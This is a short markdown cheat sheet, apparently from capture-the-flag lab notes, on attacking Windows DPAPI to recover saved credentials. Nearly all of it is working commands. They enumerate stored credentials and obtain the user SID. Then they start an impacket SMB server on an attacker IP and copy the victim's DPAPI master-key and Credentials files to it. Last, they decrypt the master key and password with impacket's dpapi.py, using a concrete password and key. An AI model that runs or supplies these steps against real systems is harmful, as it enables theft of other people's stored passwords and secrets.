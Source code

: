# DpApi attack  
DPAPI is Windows' built-in encryption system that protects things like saved passwords and Wi-Fi keys. Attackers don't break the encryption - they steal the keys to decrypt it.

# Verify it 
```language
cmdkey /list
```
# Get the sid
```language
whoami /all
or
impacket-getpac.py
```
# Grab these two files
```language
C:\Users\<user>\AppData\Roaming\Microsoft\Protect

C:\Users\<user>\AppData\Roaming\Microsoft\Credentials
```
# For Example:-
```language
#start a smb server to downk=load the files
sudo impacket-smbserver share ./ -smb2support

#connec the box
net use \\ip\share
#copy the files

copy C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580 \\10.10.14.14\share
copy C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290 \\10.10.14.14\share

# Extract the Master key
python3 /usr/share/doc/python3-impacket/examples/dpapi.py masterkey -file 0792c32e-48a5-4fe3-8b43-d93d64590580 -password '4Cc3ssC0ntr0ller' -sid  S-1-5-21-953262931-566350628-63446256-1001

# Extract the password
 python3 /usr/share/doc/python3-impacket/examples/dpapi.py credential -file 51AB168BE4BDB3A603DADE4F8CA81290 -key 0xb360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
```
